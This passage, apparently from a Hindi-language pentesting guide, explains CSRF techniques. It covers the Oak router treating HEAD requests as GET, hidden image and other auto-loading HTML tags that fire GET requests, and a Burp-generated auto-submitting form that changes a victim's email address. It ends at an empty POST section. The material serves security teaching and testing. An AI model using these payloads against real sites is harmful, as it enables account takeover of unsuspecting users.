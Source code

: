 [**इस CTF लेख**](https://github.com/google/google-ctf/tree/master/2023/web-vegsoda/solution) के पहले भाग में समझाया गया है कि [Oak का स्रोत कोड](https://github.com/oakserver/oak/blob/main/router.ts#L281), एक राउटर को **HEAD अनुरोधों को GET अनुरोधों के रूप में संभालने** के लिए सेट किया गया है जिसमें कोई प्रतिक्रिया शरीर नहीं है - एक सामान्य समाधान जो Oak के लिए अद्वितीय नहीं है। HEAD reqs से निपटने के लिए एक विशिष्ट हैंडलर के बजाय, उन्हें बस **GET हैंडलर को दिया जाता है लेकिन ऐप बस प्रतिक्रिया शरीर को हटा देता है**।

इसलिए, यदि GET अनुरोध को सीमित किया जा रहा है, तो आप बस **एक HEAD अनुरोध भेज सकते हैं जिसे GET अनुरोध के रूप में संसाधित किया जाएगा**।

## **शोषण उदाहरण**

### **CSRF टोकन निकालना**

यदि **CSRF टोकन** को **रक्षा** के रूप में उपयोग किया जा रहा है, तो आप **इसे निकालने** के लिए [**XSS**](xss-cross-site-scripting/#xss-stealing-csrf-tokens) भेद्यता या [**Dangling Markup**](dangling-markup-html-scriptless-injection/) भेद्यता का दुरुपयोग करने की कोशिश कर सकते हैं।

### **HTML टैग का उपयोग करके GET**
```xml
<img src="http://google.es?param=VALUE" style="display:none" />
<h1>404 - Page not found</h1>
The URL you are requesting is no longer available
```
अन्य HTML5 टैग जो स्वचालित रूप से GET अनुरोध भेजने के लिए उपयोग किए जा सकते हैं:
```html
<iframe src="..."></iframe>
<script src="..."></script>
<img src="..." alt="">
<embed src="...">
<audio src="...">
<video src="...">
<source src="..." type="...">
<video poster="...">
<link rel="stylesheet" href="...">
<object data="...">
<body background="...">
<div style="background: url('...');"></div>
<style>
body { background: url('...'); }
</style>
<bgsound src="...">
<track src="..." kind="subtitles">
<input type="image" src="..." alt="Submit Button">
```
### फ़ॉर्म GET अनुरोध
```html
<html>
<!-- CSRF PoC - generated by Burp Suite Professional -->
<body>
<script>history.pushState('', '', '/')</script>
<form method="GET" action="https://victim.net/email/change-email">
<input type="hidden" name="email" value="some@email.com" />
<input type="submit" value="Submit request" />
</form>
<script>
document.forms[0].submit();
</script>
</body>
</html>
```
### फ़ॉर्म POST अनुरोध
```html
```